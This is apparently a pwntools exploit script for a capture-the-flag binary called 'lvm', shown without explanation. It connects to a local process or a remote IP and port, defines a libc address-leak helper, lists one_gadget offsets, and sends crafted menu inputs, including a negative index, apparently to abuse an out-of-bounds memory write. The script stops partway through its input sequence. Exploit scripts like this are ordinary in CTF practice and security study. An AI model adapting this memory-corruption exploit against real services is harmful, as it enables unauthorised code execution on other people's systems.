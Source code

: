 ```python
from pwn import *
import time
context(log_level='debug',arch='amd64')

local=1
binary_name='lvm'

libc=ELF("libc.so.6")
e=ELF("./"+binary_name)
def exp():
	if local:
		p=process("./"+binary_name)
	else:
		p=remote('101.132.235.138', 1337)

	def z(a=''):
		if local:
		    gdb.attach(p,a)
		    if a=='':
		        raw_input
		else:
		    pass
	ru=lambda x:p.recvuntil(x)
	rc=lambda x:p.recv(x)
	sl=lambda x:p.sendline(x)
	sd=lambda x:p.send(x)
	sla=lambda a,b:p.sendlineafter(a,b)
	ia=lambda : p.interactive()


	def leak_address():
		if(context.arch=='i386'): 
			return u32(p.recv(4)) 
		else :
			return u64(p.recv(6).ljust(8,b'\x00'))


	one=[0xe6c7e,0xe6c81,0xe6c84,0xe6e73,0xe6e76]

	sl(str(28))
	time.sleep(1)
	
	pd=''
	sd('5\n')
	time.sleep(1)
	sd('-'+str(0x118//8)+'\n')
	time.sleep(1)
	
	sd('1\n')
	time.sleep(1)
	sd(str(0x662e2)+'\n')
	time.sleep(1)
	
	sd('7\n')
	time.sleep(1)
	
	sd('22\n')
	time.sleep(1)
	
	sd('4\n')
	time.sleep(1)
	sd('1\n')
	time.sleep(1)
```